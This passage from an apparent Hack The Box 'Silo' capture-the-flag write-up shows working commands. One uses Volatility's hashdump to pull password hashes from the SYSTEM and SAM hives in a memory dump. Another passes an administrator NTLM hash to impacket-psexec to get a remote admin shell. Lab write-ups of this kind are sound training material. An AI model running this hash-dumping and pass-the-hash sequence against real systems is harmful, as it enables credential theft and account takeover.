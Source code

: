 ![hives-32](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/hives-32.png)

The SAM file is what we want. 

Now that we have the system and SAM registry offests we can extract its contents using the `hashdump` module:


```bash
./volatility_2.5_linux_x64 hashdump -f SILO-20180105-221806.dmp --profile Win2012R2x64 -y 0xffffc00000028000 -s 0xffffc00000619000
```

Where `-y` is for the system offset and `-s` is for the SAM file offset:

![sam-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/sam-33.png)

Now we can simply use `psexec` to get a shell as the admin:

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 Administrator@silo.htb
```
